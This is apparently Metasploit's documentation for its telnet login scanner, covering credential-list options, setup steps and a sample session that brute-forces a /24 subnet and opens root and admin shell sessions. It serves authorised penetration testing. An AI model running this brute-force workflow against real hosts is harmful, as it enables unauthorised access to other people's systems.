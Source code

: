 ## Description
This module will test a telnet login with a list of provided credentials on a range of machines and report successful logins. It allows you to pass credentials in a number of ways. You can specifically set a username and password, you can pass a list of usernames and a list of passwords for it to iterate through, or you can provide a file that contains usernames and passwords separated by a space.

## Verification Steps

1. Do: ```use auxiliary/scanner/telnet/telnet_login```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set THREADS [NUMBER OF THREADS]```
4. Do: ```set USER_FILE [USERNAME FILE]```
5. Do: ```set PASS_FILE [PASSWORD FILE]```
6. Do: ```run```

## Options


### BLANK PASSWORD 

When set to `true`, it'll bruteforce with blank passwords for all users. Default value is `false`.

### USERNAME

Only one username to authenticate with.

### PASSWORD

Only one password to authenticate with. 

### USERPASS_FILE 

File containing username and passwords separated by space, one pair one line.

### USER_FILE

File containing usernames one per line.

### PASS_FILE

File containing passwords one per line.


## Scenarios 

In this scan we have provided list of username and passwords files separately. 

```
msf > use use auxiliary/scanner/telnet/telnet_login
msf auxiliary(scanner/telnet/telnet_login) > set RHOSTS 1.1.1.0/24
RHOSTS => 1.1.1.0/24
msf auxiliary(scanner/telnet/telnet_login) > set THREADS 254
THREADS => 254
msf auxiliary(scanner/telnet/telnet_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(scanner/telnet/telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(scanner/telnet/telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(scanner/telnet/telnet_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(scanner/telnet/telnet_login) > run

[+] 1.1.1.116 - SUCCESSFUL LOGIN root : s00p3rs3ckret
[*] Command shell session 1 opened (1.1.1.101:50017 -> 1.1.1.116:23) at 2010-10-08 06:48:27 -0600
[+] 1.1.1.116 - SUCCESSFUL LOGIN admin : s00p3rs3ckret
[*] Command shell session 2 opened (1.1.1.101:41828 -> 1.1.1.116:23) at 2010-10-08 06:48:28 -0600
[*] Scanned 243 of 256 hosts (094% complete)
[+] 1.1.1.56 - SUCCESSFUL LOGIN msfadmin : msfadmin
[*] Command shell session 3 opened (1.1.1.101:49210 -> 1.1.1.56:23) at 2010-10-08 06:49:07 -0600
[*] Scanned 248 of 256 hosts (096% complete)
[*] Scanned 250 of 256 hosts (097% complete)
[*] Scanned 255 of 256 hosts (099% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/telnet/telnet_login) >
```
